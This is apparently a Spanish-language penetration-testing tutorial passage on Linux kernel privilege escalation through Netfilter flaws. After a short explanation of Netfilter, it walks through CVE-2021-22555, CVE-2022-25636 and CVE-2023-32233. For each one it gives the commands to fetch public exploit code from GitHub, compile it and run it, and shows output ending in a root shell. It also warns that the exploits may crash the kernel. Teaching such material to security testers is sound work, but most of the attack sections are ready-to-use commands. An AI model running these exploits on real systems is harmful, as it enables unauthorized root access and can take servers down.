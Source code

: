 `Netfilter` es un módulo del kernel de Linux que proporciona, entre otras cosas, filtrado de paquetes, traducción de direcciones de red (network address translation), y otras herramientas relevantes para firewalls. Controla y regula el tráfico de red manipulando paquetes individuales basados en sus características y reglas. `Netfilter` también se conoce como la capa de software en el kernel de Linux. Cuando se reciben y envían paquetes de red, inicia la ejecución de otros módulos como filtros de paquetes (packet filters). Estos módulos pueden interceptar y manipular paquetes. Esto incluye programas como `iptables` y `arptables`, que sirven como mecanismos de acción del sistema de hooks de `Netfilter` del stack de protocolos IPv4 e IPv6.

Este módulo del kernel tiene tres funciones principales:

1. Desfragmentación de paquetes
2. Seguimiento de conexiones (Connection tracking)
3. Traducción de direcciones de red (NAT)

Cuando el módulo está activado, todos los paquetes IP son revisados por `Netfilter` antes de ser reenviados a la aplicación de destino del sistema propio o remoto. En 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), y también en 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), se encontraron varias vulnerabilidades que podrían llevar a una escalada de privilegios.

Muchas empresas tienen distribuciones de Linux preconfiguradas adaptadas a sus aplicaciones de software o viceversa. Esto les da a los desarrolladores y administradores, metafóricamente hablando, una "base dinámica" que es difícil de reemplazar. Esto requeriría ya sea adaptar el sistema a la aplicación de software o adaptar la aplicación al sistema más reciente. Dependiendo del tamaño y la complejidad de la aplicación, esto puede tomar una gran cantidad de tiempo y esfuerzo. Esta es a menudo la razón por la cual muchas empresas ejecutan distribuciones de Linux más antiguas y no actualizadas en producción.

Incluso si la empresa utiliza máquinas virtuales o contenedores como Docker, estos están construidos sobre un kernel específico. La idea de aislar la aplicación de software del sistema host existente es un buen paso, pero hay muchas maneras de romper un contenedor de este tipo.

### CVE-2021-22555

Versiones de kernel vulnerables: 2.6 - 5.11

```r
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

```r
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2022-25636

Una vulnerabilidad reciente es [CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/) y afecta al kernel de Linux 5.4 a través de 5.6.10. Este es `net/netfilter/nf_dup_netdev.c`, que puede otorgar privilegios de root a usuarios locales debido a una escritura fuera de límites en el heap. `Nick Gregory` escribió un [artículo](https://nickgregory.me/post/2022/03/12/cve-2022-25636/) muy detallado sobre cómo descubrió esta vulnerabilidad.

```r
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

Sin embargo, debemos tener cuidado con este exploit ya que puede corromper el kernel, y será necesario un reinicio para volver a acceder al servidor.

```r
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2023-32233

Esta vulnerabilidad explota los llamados `anonymous sets` en `nf_tables` utilizando la vulnerabilidad `Use-After-Free` en el kernel de Linux hasta la versión `6.3.1`. Estos `nf_tables` son espacios de trabajo temporales para procesar solicitudes por lotes y, una vez que se completa el procesamiento, estos anonymous sets se supone que deben ser limpiados (`Use-After-Free`) para que no puedan ser utilizados nuevamente. Debido a un error en el código, estos anonymous sets no se están manejando adecuadamente y aún pueden ser accedidos y modificados por el programa.

La explotación se realiza manipulando el sistema para usar los anonymous sets `limpiados` para interactuar con la memoria del kernel. Al hacerlo, potencialmente podemos obtener privilegios de `root`.

### Proof-Of-Concept

```r
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

### Exploitation

```r
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```

Ten en cuenta que estos exploits pueden ser muy inestables y pueden romper el sistema.